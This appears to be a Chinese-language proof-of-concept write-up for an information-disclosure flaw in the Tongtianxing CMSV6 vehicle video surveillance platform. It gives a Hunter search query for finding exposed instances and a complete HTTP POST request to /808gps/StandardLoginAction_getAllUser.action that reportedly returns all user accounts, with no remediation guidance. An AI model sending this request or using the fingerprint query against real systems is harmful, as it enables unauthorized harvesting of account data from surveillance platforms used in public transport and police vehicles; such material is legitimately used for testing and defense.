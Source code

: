 # 通天星CMSV6车载视频监控平台 StandardLoginAction_getAllUser存在信息泄露漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台 StandardLoginAction_getAllUser存在信息泄露漏洞

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/qeBqs1a9Qk8ZCyGE/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-679029.png)

# 四、漏洞复现
```plain
POST /808gps/StandardLoginAction_getAllUser.action HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 9
Connection: close

json=null
```

![1708930197713-09611dea-bacf-4aef-9cb2-852e43d9b0d6.png](./img/qeBqs1a9Qk8ZCyGE/1708930197713-09611dea-bacf-4aef-9cb2-852e43d9b0d6-824541.png)

![1708930228198-70bb271e-273a-4e3f-aea0-43c58e85a92d.png](./img/qeBqs1a9Qk8ZCyGE/1708930228198-70bb271e-273a-4e3f-aea0-43c58e85a92d-631853.png)



> 更新: 2024-12-28 13:05:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xuidr5l1k7z3iin7>